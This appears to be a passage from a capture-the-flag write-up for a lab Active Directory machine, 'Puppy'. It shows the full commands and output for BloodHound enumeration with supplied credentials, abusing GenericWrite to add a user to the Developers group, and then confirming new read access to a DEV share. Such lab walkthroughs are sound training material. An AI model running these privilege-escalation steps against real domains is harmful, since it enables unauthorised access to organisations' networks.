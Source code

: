 
There is a shared called DEV but we don't have any permissions over it.

Let's run bloodhound.

```terminal
../certified/BloodHound.py/bloodhound.py -d puppy.htb -u levi.james -p 'KingofAkron2025!' -ns 10.10.11.70 -dc puppy.htb -c all    
INFO: Found AD domain: puppy.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: puppy.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: puppy.htb
INFO: Found 10 users
INFO: Found 56 groups
INFO: Found 3 gpos
INFO: Found 3 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC.PUPPY.HTB
INFO: Done in 00M 22S
```

Let's open the files on bloodhound and list outbound object control.

![bloodh](1.png)

We have `GenericWrite` over `Developers` group, let's add user levi.james to that group.

```bash
net rpc group addmem "Developers" "levi.james" -U "puppy.htb"/"levi.james"%'KingofAkron2025!' -S "puppy.htb"
```

Now let's list shares again and see if we can access the DEV share.

```bash
[★]$ nxc smb 10.129.190.60 -u levi.james -p 'KingofAkron2025!' --shares
SMB         10.129.190.60   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.129.190.60   445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025! 
SMB         10.129.190.60   445    DC               [*] Enumerated shares
SMB         10.129.190.60   445    DC               Share           Permissions     Remark
SMB         10.129.190.60   445    DC               -----           -----------     ------
SMB         10.129.190.60   445    DC               ADMIN$                          Remote Admin
SMB         10.129.190.60   445    DC               C$                              Default share
SMB         10.129.190.60   445    DC               DEV             READ            DEV-SHARE for PUPPY-DEVS
SMB         10.129.190.60   445    DC               IPC$            READ            Remote IPC
SMB         10.129.190.60   445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.190.60   445    DC               SYSVOL          READ            Logon server share 

```
